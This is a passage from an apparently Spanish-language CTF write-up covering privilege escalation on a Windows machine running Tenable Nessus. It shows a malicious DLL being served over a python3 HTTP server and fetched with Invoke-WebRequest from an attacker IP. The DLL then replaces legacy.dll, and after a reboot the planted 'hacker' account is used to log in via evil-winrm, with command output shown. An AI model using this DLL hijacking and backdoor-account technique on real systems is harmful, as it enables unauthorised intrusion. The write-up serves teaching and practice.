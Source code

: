 ```powershell
cd "C:\Program Files\Tenable\Nessus\"
```

Y nos lo pasaremos de la siguiente forma abriendo un servidor de `python3`:

```shell
python3 -m http.server 8000
```

En la maquina victima:

```powershell
Invoke-WebRequest -Uri "http://<IP>:8000/malicious.dll" -OutFile "C:\Program Files\Tenable\Nessus\malicious.dll"
```

Con esto ya tendremos el `.dll` en la carpeta de `Nessus`, ahora solo tendremos que cambiar el nombre de una de las `.dll` originales por la maliciosa de la siguiente forma:

```powershell
mv legacy.dll legacy_old.dll; mv malicious.dll legacy.dll
```

Ahora si reiniciamos la maquina y probamos a entrar con el usuario que se supone que se ha tenido que crear llamado `hacker` veremos lo siguiente:

```shell
evil-winrm -i <IP> -u hacker -p 'hacker'
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hacker\Documents> whoami
nessus\hacker
```

Vemos que ha funcionado, pero si listamos los permisos y privilegios que tenemos:

```powershell
whoami /all
```

Info:

```
USER INFORMATION
----------------

User Name     SID
============= ============================================
nessus\hacker S-1-5-21-2986980474-46765180-2505414164-1003


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```